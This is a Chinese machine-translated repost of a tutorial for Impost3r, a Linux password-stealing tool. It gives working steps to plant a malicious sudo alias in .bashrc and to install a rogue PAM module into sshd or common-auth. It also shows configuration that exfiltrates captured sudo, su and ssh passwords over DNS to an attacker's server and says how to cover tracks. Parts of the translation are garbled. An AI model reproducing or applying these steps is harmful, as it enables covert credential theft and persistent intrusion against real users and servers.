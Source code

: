 # impost 3r:Linux 密码窃贼

> 原文：<https://kalilinuxtutorials.com/impost3r-a-linux-password-thief/>

[![Impost3r : A Linux Password Thief](img/4a687c08e84e01dca72aae6bc105a816.png "Impost3r : A Linux Password Thief")](https://1.bp.blogspot.com/-_O0iQEZGUEo/YSXHS5I4jiI/AAAAAAAAKjg/C4lzwJ-Ch6MksCsFYQ367taiQ0mrQtG4gCLcBGAsYHQ/s728/PackageDNA%2B%25281%2529.png)

**Impost3r** 是一个 c 编写的旨在窃取多种 linux 密码(包括 ssh、su、sudo)的工具，
攻击者可以利用 Impost3r 制作陷阱窃取合法用户的密码 XD。

**特性**

*   自动清洁轨道
*   使用 DNS 传输结果
*   合法用户很难感受到这种攻击

**依赖关系**

*   （同 groundcontrolcenter）地面控制中心

**用途**

Impost3r 可用于窃取密码，包括 sudo、su 和 ssh 服务。这三个服务大致可以分为两类，sudo 和 ssh/su。我将在下面讨论它们。

**盗取须藤密码**

只需要普通用户的权限，并且只能窃取当前用户的密码。

*   首先，我假设攻击者已经控制了一台服务器，并且权限是普通用户
*   然后抄原文。bashrc 文件 cp ~/。bashrc /tmp/，并将这个副本放在您喜欢的任何地方(在这种情况下，我将使用/tmp/)
*   编辑原文。bashrc，并在文件末尾添加以下句子(参数“/tmp/.impost3r”必须与您指定的以下文件名相同):

```
alias sudo='impost3r() {
if [ -f "/tmp/.impost3r" ]; then
/tmp/.impost3r "$@" && unalias sudo
else
unalias sudo;sudo "$@"
fi
}; impost3r'
```

*   然后，保存并运行`**source ~/.bashrc**`
*   之后，攻击者需要编辑 Impost3r **`/sudo/main.c` :** 的源代码

```
/*
    Custom setting
*/
# define FILENAME "/tmp/.impost3r" \\Set the location where the Impost3r is on the server you attack.
# define BACKUP_BASHRC "/tmp/.bashrc" \\Set the location where the backup .bashrc is on the server you attack.
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)
/*
    Send to server
*/
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.cache" \\Set the result file location if you want to save the result on the server 
```

*   保存源代码，并运行`**make**`
*   编译后获取. impost3r 文件。
*   将. impost3r 文件上传到目标服务器，并将其放在您指定的文件名下。
*   你应该做的最后一件事是在你的服务器(远程地址)的端口(远程端口)上运行一个 dns 服务器服务，然后等待奖励。

**演示**

![](img/ffcc4ca74596cf34605dc45fcb308498.png)

**提示**

*   当 Impost3r 成功窃取 sudo 密码时，它会自动清除它在目标服务器上留下的痕迹。

**盗取 ssh/su 密码**

窃取 ssh/su 密码与上面的 sudo 密码窃取方法不同。您需要 root 权限。这种方法可以窃取所有用户的密码。

下面以 Ubuntu 为例，Centos 也差不多，只是提到的文件位置可能略有不同

*   首先，假设攻击者控制了一台服务器，并获得了 root 权限

*   然后编辑 Impost3r 的`**/ssh_su/main.c**`源代码文件

```
/*
    Custom setting
*/
# define SSH_OR_BOTH 0 \\Set stealing mode, 0 means only steal ssh password, 1 means steal ssh and su password, the default is 0 (the difference will be mentioned later)
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)

/*
    Send to server
*/
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server(This option is valid only when SSH_OR_BOTH is 0)
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.(This option is valid only when SSH_OR_BOTH is 0)
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.sshsucache" \\Set the result file location if you want to save the result on the server 
```

*   修改完成后，保存并执行当前目录中的“` make '”
*   获取编译后的文件 impost3r.so
*   将编译好的 impost3r.so 上传到目标服务器的`**/lib/x86_64-linux-gnu/security**`文件夹下。(不同的机器可能有不同的文件夹名称)
*   输入`**/etc/pam.d**`，然后有两种情况。如果选择的模式是只窃取 ssh 密码，那么您需要执行`**vi sshd**`并在文件末尾添加下面的语句。

```
auth optional impost3r.so
account optional impost3r.so
```

*   保存并退出，重启 sshd 服务`**service sshd restart**`
*   但是如果您选择一起窃取 ssh 和 su 密码，您需要执行`**vi common-auth**`，添加相同的语句，保存并退出，然后重启 sshd 服务
*   攻击者在其服务器上启动 dns 服务器程序，等待合法用户通过`**ssh**`登录目标服务器，或者使用`**su**`切换用户以获取密码。

**演示**

![](img/22673e9cb7e30851d30cf24b44766c2a.png)

**提示**

*   在盗取 ssh/su 密码的情况下，Impost3r 由于权限原因无法清除痕迹，需要攻击者自己清除
*   请注意，如果您设置只窃取 ssh 密码，可以保证您将几乎 100%地收到窃取的结果，但是如果您设置两者都窃取，您将不能保证您将 100%地收到结果。(选择在本地保存结果不会有这个问题，只有 dns 会)
*   不建议窃取 su 密码，因为用户的 ssh 密码与 su 密码相同。我觉得有 ssh 密码就够漂亮了。

**注意**

*   我用的 Dns 服务器 progran 是 [Fdns](https://github.com/deepdarkness/Fdns) ，我修改了一些 params，你可以在`**Fdns**`文件夹下找到修改后的源代码，用`**gcc -o dns main.c util.c**`自己编译。实际上，你可以使用任何类型的 dns 服务器，但是你使用的 dns 服务器必须能够对客户端做出 dns 响应，而不仅仅是记录 dns 请求(你还需要记录 dns 请求，否则你会丢失窃取结果)。
*   本项目编码只是为了好玩，逻辑结构和代码结构不够严谨，请不要太较真，也欢迎建议和 prs。

[**Download**](https://github.com/ph4ntonn/Impost3r)